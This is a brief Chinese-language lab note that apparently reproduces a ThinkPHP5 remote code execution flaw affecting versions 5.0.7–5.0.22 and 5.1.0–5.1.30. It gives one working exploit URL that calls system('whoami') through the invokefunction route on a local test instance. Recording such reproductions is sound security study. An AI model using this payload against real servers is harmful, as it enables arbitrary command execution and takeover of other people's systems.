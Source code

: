 <img src=".\图片\Snipaste_2023-05-26_12-35-43.png" alt="Snipaste_2023-05-26_12-35-43" style="zoom: 80%;" />

# TP5框架

**5.0.7<=ThinkPHP5<=5.0.22** 、**5.1.0<=ThinkPHP<=5.1.30**

代码执行

## 复现

```http
http://127.0.0.1:8081/thinkphp_5.0.15/public/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

<img src=".\图片\Snipaste_2023-05-26_12-37-35.png" alt="Snipaste_2023-05-26_12-37-35" style="zoom:80%;" />
